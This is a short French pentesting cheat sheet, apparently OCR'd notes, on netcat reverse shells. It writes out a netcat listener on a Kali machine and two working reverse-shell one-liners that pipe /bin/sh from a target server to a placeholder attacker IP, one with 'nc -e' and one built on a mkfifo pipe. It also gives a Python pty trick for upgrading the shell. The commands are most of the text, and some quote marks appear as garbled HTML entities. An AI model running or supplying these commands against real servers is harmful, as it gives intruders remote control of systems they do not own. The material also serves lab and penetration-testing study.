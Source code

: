 Mettre un nc en écoute sur la kali
```
nc -lvp 4444
```

Lancer un reverse shell sur le serveur, qui lance un shell, vient se connecter sur le netcat en écoute, et donne accès au shell.
```
nc -e /bin/sh IPKALI 4444
```

Pour utiliser un reverse shell il faut connaitre l'IP publique de sa Kali.







## Netcat - Reverse Shell (sans -e)

Mettre un nc en écoute sur la kali
```
nc -lvp 4444
```

Lancer un reverse shell sur le serveur, qui lance un shell, vient se connecter sur le netcat en écoute, et donne accès au shell.
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc IPKALI 4444 >/tmp/f
```








## Upgrader son shell netcat avec un tty

Le shell obtenu avec nc est basique. Ce n'est pas un tty.<br/>
Certaines commandes comme su vont refuser de fonctionner.<br/>
Pour upgrader notre shell, utiliser python pour avoir un shell de type tty:
```
python -c 'import pty; pty.spawn(&quot/bin/bash&quot)'
```








## Upgrader son shell avec historique et completion

Le shell obtenu avec nc est basique. La completion avec le Tab, l'historique avec les flèches ne sont pas gérés.<br/>
<br/>
Passer le nc en arrière plan avec:
```
Ctr-Z
```
